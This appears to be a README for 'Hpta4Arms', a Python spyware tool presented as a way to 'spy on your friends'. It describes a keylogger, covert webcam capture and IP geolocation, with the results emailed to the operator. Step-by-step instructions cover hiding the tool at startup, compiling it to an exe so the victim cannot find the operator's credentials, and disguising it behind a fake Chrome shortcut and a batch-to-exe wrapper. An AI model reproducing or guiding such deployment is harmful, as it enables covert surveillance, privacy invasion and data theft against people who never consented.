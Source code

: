 #Hpta4Arms 
is a buggy tool used to spy on your friends it consists of 4 main arms as i love to call them :D those arms are working together to 
grap data from pc and send it via email <br>
`First Arm` : is Key logger that will save your key logs to a file called `log.in` <br>
`Second Arm` : will take photo from your laptop camera and save it in a file called `logg.png` <br>
`Third Arm` : will detect your location using this API freegeoip.net <br>
`Fourth Arm` : will package the last three arms and send them to your email address that you provide <br>

#Working Technique
first thing this is a spying tool so it has to work secretly in the background and run every time the computer is restarting and that is exaclly what `hide()` and `addStartup()`
do so let's start from the beginning : <br>
1. Hpta4Arms will hide itself and added to your start-up apps with the value of true <br>
2. and after that it will open afile called `log.in` and write a `START::` word at the beginning it is a mark for your logs starting<br>
3. it will take a photo and save it to a file called logg.jpg this file will delete himself after it has been sent to the email address<br> 
4. it will detect your location (Lat & lng)--(this might not be accurate because of the API it will detect your first public IP and return it's location)<br>
5. it will send an email to the address you provided<br>
this message will have two files attached the log.in (Logs Text file) and logg.jpg (photo that has been captured from your friend cam)<br>
<img src = "https://github.com/GardiansLab/Hpta4Arms/blob/master/Capture.PNG">

#Install
first you need to install the python packages to help in building your exe files you can plant it in your friend PC so let's go <br>
1. you need to install the packages from the requirements.txt file using this command  (navigate to the tool folder using your CMD)
`pip install requirement.txt` <br>
2. you need to specify the from and to email address to can send the email 
open 'Hpta4Arms.py' and goto line 108 & 109 and change the value to your from and to email addresses
Note :you can use the same email to send the message from the same email.<br>
3. go to line 144 and type your password <br>
4. here im using hotmail so in line 142 iam using smtp.live.comif you are using another email i.e gmail,yahoo,...etc you should provide your correct protocol
`smtplib.SMTP('smtp.live.com', 587)`<br>
5. after that you need to get your exe file to prevent the victim from discovering your email and password if he discover the trick so you have pyinstaller then go to your CMD and run 
`pyinstaller Hpta4Arms.py`<br>
6. two files will be created `dist` and `build` navigate to `dist/Hpta4arms/Hpta4arms.exe` you friend has to run this file to enables you spying on him<br>
7. check the "Plant the tool in your friend PC" section to hide the tool with another software. <br>

#Plant the tool in your friend PC
now you have the exe file if you run it a cmd will open and close in a second (it's not closing it's hiding :D )
so more on hiding the tool without discovering it is to create a batch file that run a specific software and the tool in the same time
,most of people are using chrome so i will create a batch file that will run chrome and Hpta4Arms together so, go ahead and create a file called launch.bat
and paste the code in launch.bat in it . <br>
if your friend is using another software replace third line with the path of your friend's favourite software (make sure it is the exe file)
then go to desktop and right click and create shortcut and add the path to this batch file and rename the file chrome so your friend now will 
open this to start working on chrome and the tool is starting in the background <br>

#Give me more
let's suppose your friend is smart he will figure out that this batch file might be buggy so he avoid running it so now you will convert this batch file to exe file 
doing the same task go to bat2exe folder you will find a file called how_to_run.txt to convert any batch file to exe file 

#Examples
in the examples folder you will find testing for each arm alone feel free to edit them and made a pull request if there isn't anything 
working right with you contact me at ahmedkhaled36@hotmail.com

#If you have any problem 
if you are missing some of the modules you can install it using pip or check out this blog i wrote about installing any module [Here](http://ahmed-khd.blogspot.com.eg/2017/01/how-to-install-python-modules-very-easy.html)

#license
The package is open-sourced software licensed under the [MIT license].